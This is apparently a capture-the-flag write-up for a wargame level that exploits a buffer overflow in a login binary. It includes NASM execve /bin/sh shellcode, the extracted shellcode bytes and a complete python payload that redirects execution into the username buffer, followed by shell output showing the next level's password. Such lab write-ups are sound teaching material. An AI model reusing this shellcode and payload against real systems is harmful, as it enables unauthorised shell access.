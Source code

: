 We get the binary out of the Vm using this cmd:

scp -P 4242 level02@192.168.56.103:./level02 ./test2

Then we decompile it with ghidra, and we get this pseudo code in c.
We clear it up from useless variable and understand it by testing the binary with gdb.

Te program ask for us to input a username in a 256 char buffer. 

--> fgets(a_user_name,256,stdin);

The content of this buffer is later checked with the function 'verify_user_name()'
The verify_user_name function will check if the first 7 char of our buffer is equal to "dat_wil" and return the result of this comparison.

Then the program ask us to input a password, wich will be stored in a 16 char buffer.

--> undefined4 local_54 [16];

--> fgets(local_54,100,stdin);

We will use the Nopsled buffer overflow to exploit the weekness of the first buffer (large buffer, verification only for the first 7 char)
For this exploit, we need a shellcode wich will launch us a shell (/bin/sh)

let's do it ! To generate it, let's create a shellcode.nasm
```s
xor     eax, eax    ;Clearing eax register
push    eax         ;Pushing NULL bytes
push    0x68732f2f  ;Pushing //sh
push    0x6e69622f  ;Pushing /bin
mov     ebx, esp    ;ebx now has address of /bin//sh
push    eax         ;Pushing NULL byte
mov     edx, esp    ;edx now has address of NULL byte
push    ebx         ;Pushing address of /bin//sh
mov     ecx, esp    ;ecx now has address of address
                    ;of /bin//sh byte
mov     al, 11      ;syscall number of execve is 11
int     0x80        ;Make the system call
```
compile it
* `nasm -f elf shellcode.asm`

Use objdump to get the shellcode bytes:
* `objdump -d -M intel shellcode.o`

Extracting the bytes gives us the shellcode
* `\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80`

Now we have a shellcode, we need the address of the first buffer, a quick look on ghidra, it is 0x0804a040.

And the offset of the segfault in the second buffer. To find it we use the dichotomy method.
* `python -c "print 'dat_wil' + '\n' + 'a' * 80 > /tmp/file`
* `cat /tmp/file - | ./level1`

We found the segfault at 80. The method we'll use for this exploit is called a nopsled overflow.

We'll first input dat_wil to pass the verify_user_name function and then our payload followed by '\n' to enter the input a continue the program.

then for the second input, we'll print 80 times 'a' to reach the segfault and add the address of the first buffer + 7 (to skip the 'dat_will').

This way the next instruction to be executed will be our shellcode.

To resume:
`dat_wil + shellcode + '\n' + a * 80 + addr_of_buffer1 + 7` 

et voila !

Now let's build our payload:

`python -c "print 'dat_wil' + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80' + '\n' + 'a' * 80 + '\x47\xa0\x04\x08'" > /tmp/file`

```s
level01@OverRide:~$ cat /tmp/file - | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...

cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv

```